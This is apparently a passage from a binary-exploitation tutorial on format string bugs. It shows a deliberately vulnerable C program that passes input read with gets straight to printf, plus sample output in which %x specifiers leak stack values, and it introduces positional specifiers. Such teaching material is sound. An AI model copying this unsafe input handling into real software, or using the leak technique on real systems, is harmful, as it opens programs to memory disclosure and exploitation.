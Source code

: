 Erm... what happened here?

The key here is that `printf` expects as many parameters as format string specifiers, and in 32-bit it grabs these parameters from the stack. If there aren't enough parameters on the stack, it'll just _grab the next values_ - essentially _leaking values off the stack_. And that's what makes it so dangerous.

### How to abuse this

Surely if it's a bug in the code, the attacker can't do much, right? Well the real issue is when C code takes user-provided input and prints it out using `printf`.

{% file src="../../.gitbook/assets/fmtstr\_arb\_read.zip" caption="Format String" %}

```c
#include <stdio.h>

int main(void) {
    char buffer[30];
    
    gets(buffer);

    printf(buffer);
    return 0;
}
```

If we run this normally, it works at expected:

```text
$ ./test 

yes
yes
```

But what happens if we input format string specifieres, such as `%x`?

```text
$ ./test

%x %x %x %x %x
f7f74080 0 5657b1c0 782573fc 20782520
```

It reads values off the stack and returns them!

### Choosing Offsets

To print the same value 3 times, using

```c
printf("%x %x %x", value, value, value);
```

Gets tedious - so, there is a better way in C.

```c
printf("%1$x %1$x %1$x", value);
```
